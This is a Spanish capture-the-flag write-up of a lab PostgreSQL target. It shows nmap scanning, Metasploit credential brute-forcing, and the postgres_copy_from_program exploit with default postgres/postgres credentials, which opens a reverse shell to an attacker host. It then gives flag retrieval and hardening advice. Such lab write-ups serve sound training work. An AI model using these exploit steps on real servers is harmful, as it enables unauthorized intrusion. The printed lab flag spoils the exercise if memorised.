





<h1 align="center">[Writeup] POSTGRESQL - Reporte de Vulnerabilidad</h1>

**Fecha:** 18 de Mayo, 2026

**Severidad:** Crítica 🔴

**Objetivo:** `172.17.0.2`

**Vulnerabilidad Identificada:** Ejecución Remota de Código (RCE) mediante abuso de funcionalidad nativa (`COPY ... FROM PROGRAM`) tras compromiso de credenciales débiles.

**Plataforma**: WhoAmI-Labs.com

---

# Descripción
"Laboratorio pedagógico de Concept & Beginner (Nivel Easy). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: POSTGRESQL, requiriendo obtener acceso inicial y comprometer el sistema."

---

## 1. Fase de Reconocimiento y Enumeración

### Escaneo Inicial de Puertos

Se realizó un descubrimiento de servicios en el host objetivo `172.17.0.2` utilizando la herramienta `nmap`:

```
nmap -sC -sV -p- -T4 --min-rate 1000 172.17.0.2 -oN scan_postgres.txt
```

**Resultados del escaneo:**

- `5432/tcp` - open - `postgresql` (PostgreSQL DB 12.14 - 12.22)



### Enumeración y Fuerza Bruta de Credenciales

Al detectar que el único vector expuesto era el motor de base de datos, se procedió a realizar una verificación de políticas de contraseñas mediante el módulo auxiliar de autenticación de Metasploit.

```
msfconsole -q
use auxiliary/scanner/postgres/postgres_login
set RHOSTS 172.17.0.2
run
```

**Hallazgo clave:** El sistema validó con éxito una credencial de altos privilegios debido a la presencia de **credenciales débiles/por defecto** en la instalación del servicio.



---

## 2. Fase de Explotación (Vía de Ataque)

### Mecanismo del Impacto

A partir de la versión 9.3 de PostgreSQL, la directiva `COPY ... FROM PROGRAM` permite a los superusuarios del motor de base de datos ejecutar comandos directamente en el sistema operativo subyacente y canalizar la salida hacia una tabla. Un atacante con credenciales válidas puede abusar de esta funcionalidad de diseño para inyectar un payload malicioso y forzar una conexión reversa.

### Ejecución del Exploit

Utilizando el acceso previamente comprometido, se cargó el módulo de explotación correspondiente en Metasploit para automatizar la inyección del comando en el servidor:

```
use exploit/multi/postgres/postgres_copy_from_program
set RHOSTS 172.17.0.2
set USERNAME postgres
set PASSWORD postgres
set LHOST <IP_ATACANTE>
run
```

**Resultado:** El entorno procesó la sintaxis maliciosa de forma correcta, interactuó con el sistema operativo y otorgó una **shell de comandos** (`Command shell session 1`) bajo el contexto del usuario del servicio (`postgres`).



---

## 3. Post-Explotación y Evidencia (PoC)

Tras interactuar con la shell y sortear las restricciones de lectura en directorios administrativos exclusivos (como `/root`), se procedió a la búsqueda exhaustiva del archivo de prueba mediante comandos del sistema:

```
find / -name "*flag*" 2>/dev/null
cat /ruta/hacia/flag.txt
```

**Flag Obtenida:** 
`POSTGRESQL{w34k_cr3d3nt14ls_4nd_c0py_fr0m_pr0gr4m}`




## 4. Mitigaciones Recomendadas

- **Robustecimiento de Credenciales (Hardening):** Cambiar de inmediato las contraseñas por defecto del usuario `postgres` y de cualquier rol administrativo por claves complejas y de alta entropía.
    
- **Restringir Privilegios en la Base de Datos:** Limitar de manera estricta qué usuarios poseen el rol de `SUPERUSER`. La ejecución de `COPY ... FROM PROGRAM` debe estar prohibida para cuentas utilizadas por aplicaciones web o servicios de terceros.
    
- **Aislamiento de Red:** Modificar el archivo de configuración `pg_hba.conf` para restringir qué direcciones IP o subredes específicas tienen permitido intentar un login al puerto `5432`, bloqueando cualquier conexión externa innecesaria.
